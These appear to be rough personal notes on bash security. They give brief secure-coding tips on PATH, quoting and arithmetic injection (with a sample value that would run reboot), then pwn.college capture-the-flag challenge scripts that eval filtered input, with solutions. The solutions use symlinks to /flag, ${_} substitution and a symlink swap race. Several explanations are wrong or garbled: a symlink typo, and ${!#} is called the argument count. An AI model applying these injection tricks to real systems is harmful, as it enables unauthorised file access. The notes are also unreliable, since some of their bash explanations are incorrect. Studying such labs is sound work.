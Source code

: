 # Environment Attacks
Always specify absolute paths when executing binaries or other scripts. If your script runs other scripts or binaries that do not use absolute paths internally, you should explicitly set the value of the PATH environment variable in your scripts to prevent problems.
(unset PATH not always works)
# Unquoted Variable Expansion
Always use quotes when accessing arguments
# Shell's Filename Expansion (also known as globbing)
idk warning?
# Enimgma of The Evironment
+ Check for user-controllable variables being passed to declare statements
+ Flag any script that allows arbitrary variable names in declare statements
+ Identify unquoted variables that are executed as commands (like $PROGRAM)
+ Flag variable assignments that could be influenced by user input and later executed
+ Look for cases where user input directly influences what command gets executed
# Tale of The Test
If the contents of $foo are not sanitised and are out of your control (if for instance they're coming from an external source), then all but [ "$foo" -gt 7 ] constitute an arbitrary command injection vulnerability as the contents of $foo are interpreted as an arithmetic expression (and for instance, the a[$(reboot)] arithmetic expression would run the reboot command when evaluated). The [ builtin requires the operands be decimal integers, so it's not affected. But it's critical that $foo be quoted, or you'd still get a command injection vulnerability (for instance with values such as -v a[$(reboot)] -o 8).

If the input to any arithmetic context (including ((, let, array indices), or [[ … ]] test expressions involving numeric comparisons can't be guaranteed then you must always validate your input before evaluating the expression.

# Rhythm of Restriction
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
/challenge/run
$(< ${_})
```
```
${_} is a special variable in Bash that usually contains the last argument of the previous command which in our case is INPUT.
$(< ${_}) is a command substitution that reads the contents of the file whose path is stored in ${_}. This is a shorthand in Bash for $(cat ${_}).
```
### vuln
directly executing clients ipnut

# Odyssey of the Octal
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9./]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
$(< ${_})
```
# Riddle of the Radix
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read -r INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
creat symlink to /challenge/run
``` sh
ln -s /challenge/run smth
```
run the challenge with symlink using full path
``` sh
/home/hacker/smth
```
before passing input to challenge, in another terminal remove the symlink and create some program with same name as a symlink that reads /flag
``` sh
#!/usr/bin/bash

cat /flag
```
pass $0 to challenge as an input
# Whisper of the Withheld
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
Solution to [Riddle of the Radix](#riddle-of-the-radix) works jus as well
# Path of the Unseen
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z0-9.~]")
        eval "$INPUT"
}

doit
```
### sol
Same solution as to [Riddle of the Radix](#riddle-of-the-radix) but pass ${!#} as an input to challenge. ({!#} is number of arguments
passed to the program)
# Dance of the Disallowed
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z0-9./~]")
        eval "$INPUT"
}

doit
```
### sol
same as in [Path of the Unseen](path-of-the-unseen)
